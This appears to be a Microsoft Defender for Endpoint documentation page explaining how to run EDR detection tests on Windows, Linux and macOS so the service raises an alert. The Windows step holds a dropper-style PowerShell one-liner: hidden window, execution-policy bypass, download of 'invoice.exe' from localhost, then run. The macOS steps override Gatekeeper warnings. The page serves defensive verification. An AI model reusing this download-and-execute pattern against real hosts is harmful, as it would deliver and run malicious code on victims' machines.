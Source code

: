 ```yaml
---
title: EDR detection test for verifying device's onboarding and reporting service
description: EDR detection test to verify the device's proper onboarding and reporting to the service.
keywords: microsoft, defender, Microsoft Defender for Endpoint, mac, installation, deploy, uninstallation, intune, jamf, macos, big sur, monterey, ventura, mde for mac
ms.service: microsoft-365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
- m365-security
- tier3
- mde-macos
ms.custom: admindeeplinkDEFENDER
ms.topic: conceptual
ms.subservice: mde
search.appverid: met150
ms.date: 01/15/2024
---
```


# EDR detection test for verifying device's onboarding and reporting services

#### Applies to:

- [Microsoft Defender for Endpoint Plan 2](https://go.microsoft.com/fwlink/p/?linkid=2154037)
- [Microsoft Defender for Business](https://www.microsoft.com/security/business/endpoint-security/microsoft-defender-business)

## Scenario requirements and setup

- Windows 11, Windows 10 version 1709 build 16273 or newer, Windows 8.1, or Windows 7 SP1.
- Windows Server 2022, Windows Server 2019, Windows Server 2016, Windows Server 2012 R2, and Windows Server 2008 R2 SP1.
- Linux
- macOS
- Microsoft Defender for Endpoint
- Microsoft Defender for Endpoint on Linux
- Microsoft Defender for Endpoint on macOS

Endpoint detection and response for Endpoint provide advanced attack detections that are near real-time and actionable. Security analysts can prioritize alerts effectively, gain visibility into the full scope of a breach, and take response actions to remediate threats.

Run an EDR detection test to verify that the device is properly onboarded and reporting to the service. Perform the following steps on the newly onboarded device:

### Windows

1. Open a Command Prompt window

2. At the prompt, copy and run the command below. The Command Prompt window will close automatically.


```powershell
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
```

3. If successful, the detection test will be marked as completed and a new alert will appear in few minutes.

### Linux

1. Download [script file](https://aka.ms/LinuxDIY) to an onboarded Linux server 


```bash
curl -o ~/Downloads/MDE Linux DIY.zip https://aka.ms/LinuxDIY
```

1. Extract the zip 

```bash
unzip ~/Downloads/MDE Linux DIY.zip
```

1. And run the following command: 

```bash
./mde_linux_edr_diy.sh
```

After a few minutes, a detection should be raised in Microsoft Defender XDR.

3. Look at the alert details, machine timeline, and perform your typical investigation steps.

### macOS

1. In your browser, Microsoft Edge for Mac or Safari, download *MDATP MacOS DIY.zip* from [https://aka.ms/mdatpmacosdiy](https://aka.ms/mdatpmacosdiy) and extract.

      The following prompt appears:

      > Do you want to allow downloads on "mdatpclientanalyzer.blob.core.windows.net"?<br/>
      > You can change which websites can download files in **Websites Preferences**.

4. Click **Allow**.

5. Open **Downloads**.

6. You must be able to see **MDATP MacOS DIY**.

   > [!TIP]
   > If you double-click **MDATP MacOS DIY**, you will get the following message:
   >
   > > **"MDATP MacOS DIY" cannot be opened because the developer cannot be verifier.**<br/>
   > > macOS cannot verify that this app is free from malware.<br/>
   > > **[Move to Trash]** **[Cancel]**

7. Click **Cancel**.

8. Right-click **MDATP MacOS DIY**, and then click **Open**.

    The system displays the following message:

    > **macOS cannot verify the developer of MDATP MacOS DIY. Are you sure you want to open it?**<br/>
    > By opening this app, you will be overriding system security which can expose your computer and personal information to malware that may harm your Mac or compromise your privacy.

9. Click **Open**.

    The system will display the following message:

    > Microsoft Defender for Endpoint - macOS EDR DIY test file<br/>
    > Corresponding alert will be available in the MDATP portal.

10. Click **Open**.

    In few minutes, an alert *macOS EDR Test Alert* is raised.

11. Go to Microsoft Defender portal (https://security.microsoft.com/).

12. Go to the **Alert** Queue.

    :::image type="content" source="images/b8db76c2-c368-49ad-970f-dcb87534d9be.png" alt-text="Screenshot that shows a macOS EDR test alert that shows severity, category, detection source, and a collapsed menu of actions":::

    The macOS EDR test alert shows severity, category, detection source, and a collapsed menu of actions.

    Look at the alert details and the device timeline, and perform the regular investigation steps.

 Next steps that you can consider performing are to add AV exclusions as needed for application compatibility or performance:

- [Configure and validate exclusions for Microsoft Defender for Endpoint on macOS](mac-exclusions.md)
- [Address false positives/negatives in Microsoft Defender for Endpoint](defender-endpoint-false-positives-negatives.md)
- [Manage suppression rules](manage-suppression-rules.md)
- [Create indicators of compromise (IoC)](manage-indicators.md)
- [Create and manage custom detections rules](../defender/custom-detection-rules.md)

Read through [Microsoft Defender for Endpoint Security Operations Guide](mde-sec-ops-guide.md).
